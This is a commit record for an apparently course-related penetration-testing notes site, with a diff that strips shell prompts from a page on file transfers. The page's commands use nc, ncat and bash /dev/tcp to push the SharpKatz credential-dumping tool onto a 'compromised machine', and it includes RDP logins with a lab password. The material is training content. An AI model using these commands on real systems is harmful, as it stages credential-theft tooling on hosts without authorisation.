

Before and after one commit to sammyHa/notes, an MkDocs documentation site: the page built from docs/CPTS/File Transfers/miscellaneous_file_transfer.md, in a window 1280 px wide and 1400 px high, scrolled down 714 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
new files

````diff
--- a/docs/CPTS/File Transfers/miscellaneous_file_transfer.md
+++ b/docs/CPTS/File Transfers/miscellaneous_file_transfer.md
@@ -27,13 +27,13 @@ The target or attacking machine can initiate the connection, which is helpful if
 1. On the **compromised machine**, start Netcat listening with:
 
     ```
-    victim@target:~$ nc -l -p 8000 > SharpKatz.exe
+    nc -l -p 8000 > SharpKatz.exe
     ```
 
 2. From the **attacking host**, send the file with:
 
     ```
-    0xs5@htb[/htb]$ wget -q https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe
+    wget -q https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe
     0xs5@htb[/htb]$ nc -q 0 192.168.49.128 8000 < SharpKatz.exe
     ```
 
@@ -43,13 +43,13 @@ The target or attacking machine can initiate the connection, which is helpful if
 1. On the **compromised machine**, start Ncat with:
 
     ```
-    victim@target:~$ ncat -l -p 8000 --recv-only > SharpKatz.exe
+    ncat -l -p 8000 --recv-only > SharpKatz.exe
     ```
 
 2. From the **attacking host**, send the file with:
 
     ```
-    0xs5@htb[/htb]$ ncat --send-only 192.168.49.128 8000 < SharpKatz.exe
+    ncat --send-only 192.168.49.128 8000 < SharpKatz.exe
     ```
 
 
@@ -60,13 +60,13 @@ Instead of listening on the compromised machine, we can:
 1. On the **attacking host**, listen with:
 
     ```
-    0xs5@htb[/htb]$ sudo ncat -l -p 443 --send-only < SharpKatz.exe
+    sudo ncat -l -p 443 --send-only < SharpKatz.exe
     ```
 
 2. On the **compromised machine**, connect to the attacker with:
 
     ```
-    victim@target:~$ ncat 192.168.49.128 443 --recv-only > SharpKatz.exe
+    ncat 192.168.49.128 443 --recv-only > SharpKatz.exe
     ```
 
 
@@ -77,13 +77,13 @@ If Netcat/Ncat is unavailable on the compromised machine, Bash can perform read/
 1. On the **attacking host**:
 
     ```
-    0xs5@htb[/htb]$ sudo nc -l -p 443 -q 0 < SharpKatz.exe
+    sudo nc -l -p 443 -q 0 < SharpKatz.exe
     ```
 
 2. On the **compromised machine**:
 
     ```
-    victim@target:~$ cat < /dev/tcp/192.168.49.128/443 > SharpKatz.exe
+    cat < /dev/tcp/192.168.49.128/443 > SharpKatz.exe
     ```
 
 
@@ -138,13 +138,13 @@ PowerShell Remoting, aka WinRM, can transfer files when HTTP, HTTPS, or SMB are
     - Using `rdesktop`:
 
         ```
-        0xs5@htb[/htb]$ rdesktop 10.10.10.132 -d HTB -u administrator -p 'Password0@' -r disk:linux='/home/user/rdesktop/files'
+        rdesktop 10.10.10.132 -d HTB -u administrator -p 'Password0@' -r disk:linux='/home/user/rdesktop/files'
         ```
 
     - Using `xfreerdp`:
 
         ```
-        0xs5@htb[/htb]$ xfreerdp /v:10.10.10.132 /d:HTB /u:administrator /p:'Password0@' /drive:linux,/home/plaintext/htb/academy/filetransfer
+        xfreerdp /v:10.10.10.132 /d:HTB /u:administrator /p:'Password0@' /drive:linux,/home/plaintext/htb/academy/filetransfer
         ```
 
 2. **From Windows**:
````
Also changed, not shown: docs/CPTS/File Transfers/protected_file_transfer.md (added, +257 -0 lines).
